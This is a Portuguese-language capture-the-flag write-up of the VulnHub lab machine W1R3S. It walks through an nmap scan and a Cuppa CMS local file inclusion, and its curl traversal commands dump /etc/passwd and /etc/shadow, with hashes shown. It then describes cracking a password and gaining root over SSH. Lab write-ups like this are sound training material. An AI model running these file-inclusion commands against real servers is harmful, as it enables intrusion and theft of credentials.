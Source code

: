 ```yaml
---
title: Desafio 2 - VM 06
author: R3d-4rr0w
date: 2022-04-14 05:00:00 -0300
categories: [Desafio 2, Beco do Exploit, Writeups]
tags: [Desafio 2, Writeups, Linux, LFI]
image: "/img/desafio2/becoxpl-logo.png"
alt: "Desafio2-VM6"
---
```


# VM 6 - Wires

---

## [VM 6 - Wires](https://www.vulnhub.com/entry/w1r3s-101,220/)

---

## Reconhecimento

NMAP

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -v 192.168.56.9
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 10:42 EDT
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Procurando no searchsploit, vemos que não tem exploit para o vsftpd.

Vamos abrir a porta 80 no browser.

Ela retorna a página default do Apache.

<img src="/img/desafio2/vm6/wires.png">

Vamos enumerar os diretórios usando o FFUF, que é uma ferramenta para fuzzing.

>**💡[Fuzz Faster U Fool - FFUF](https://github.com/ffuf/ffuf)**


Na enumeração, encontramos o diretório administrator que chama atenção.

<img src="/img/desafio2/vm6/wires 1.png">

E ao acessar via browser, vemos que a aplicação está rodando o Cuppa CMS.

<img src="/img/desafio2/vm6/wires 2.png">

No searchsploit temos um exploit para o Cuppa.

<img src="/img/desafio2/vm6/wires 3.png">

>**💡[Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion](https://www.exploit-db.com/exploits/25971)**


O exploit explora um Local File Inclusion / Remote File Inclusion, que nos permite ler arquivos através do serviço web.

>**💡[What is Local File Inclusion (LFI)?](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)**


Ao ler o código do exploit, vemos que existe um path para rodar o exploit.

<img src="/img/desafio2/vm6/wires 4.png">

Ao abrir essa URL na aplicação, vemos que a página existe, então vamos continuar com a exploração.

<img src="/img/desafio2/vm6/wires 5.png">

---

## Exploração LFI

No exploit também cita que podemos ler o /etc/passwd usando essa falha, mas ao tenta,  ele não retorna nada e mesmo fazendo o encode para base64 pelo browser, continua não retornando nada.

Então vamos usar o curl, para fazer o encode e a requisição.

Após executar o comando usando o curl, temos acesso ao /etc/passwd do servidor.

```bash
┌──(red_arrow㉿kali)-[~]
└─$ curl -s --data-urlencode urlConfig=../../../../../../../../../../../etc/passwd http://192.168.56.9/administrator/alerts/alertConfigField.php?
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```

Vamos tentar com o /etc/shadow para conseguir os hashs das senhas dos usuários.

```bash
┌──(red_arrow㉿kali)-[~]
└─$ curl -s --data-urlencode urlConfig=../../../../../../../../../../../etc/shadow http://192.168.56.9/administrator/alerts/alertConfigField.php?
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

Agora que temos a hash, vamos usar o john para descobrir a senha.

Conseguimos a senha do user w1r3s

<img src="/img/desafio2/vm6/wires 6.png">

Vamos conectar ao servidor usando o SSH da porta 22.

<img src="/img/desafio2/vm6/wires 7.png">

---

## Escalagem de Privilégio

Ao rodar o sudo -l, vemos que o usuário já tem privilégios de root.

<img src="/img/desafio2/vm6/wires 8.png">

E dentro do diretório root, temos a flag

<img src="/img/desafio2/vm6/wires 9.png">